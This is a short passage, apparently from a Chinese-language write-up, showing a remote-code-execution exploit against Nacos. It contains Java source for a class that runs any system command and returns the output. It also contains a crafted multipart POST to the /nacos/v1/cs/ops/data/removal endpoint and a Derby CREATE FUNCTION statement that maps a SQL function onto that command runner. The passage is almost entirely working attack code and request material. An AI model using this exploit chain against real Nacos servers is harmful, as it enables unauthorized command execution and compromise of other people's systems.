

/* loaded from: Example.class */ public class Example { public static void main(String[] args) { String ret = exec("ipconfig"); System.out.println(ret); }
public static String exec(String cmd) { StringBuffer bf = new StringBuffer(); try { String charset = "utf-8"; String osName = System.getProperty("os.name"); if (osName != null && osName.startsWith("Windows")) { charset = "gbk"; } Process p = Runtime.getRuntime().exec(cmd); InputStream fis = p.getInputStream(); InputStreamReader isr = new InputStreamReader(fis, charset); BufferedReader br = new BufferedReader(isr); while (true) { String line = br.readLine(); if (line != null) { bf.append(line); } else { return bf.toString(); } } } catch (Exception e) { StringWriter writer = new StringWriter(); PrintWriter printer = new PrintWriter(writer); e.printStackTrace(printer); try { writer.close(); printer.close(); } catch (IOException e2) { } return "ERROR:" + writer.toString(); } } }

构造请求，加载命令执行jar
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19
POST /nacos/v1/cs/ops/data/removal HTTP/1.1 Host: 192.168.229.1:8848 User-Agent: python-requests/2.32.3 Accept-Encoding: gzip, deflate, br Accept: */* Connection: close Content-Length: 489 Content-Type: multipart/form-data; boundary=2a262c4e7ea55d81b1906382912b7422
CREATE FUNCTION S_EXAMPLE_jtZJBFpM( PARAM VARCHAR(2000)) RETURNS VARCHAR(2000) PARAMETER STYLE JAVA NO SQL LANGUAGE JAVA EXTERNAL NAME 'test.poc.Example.exec'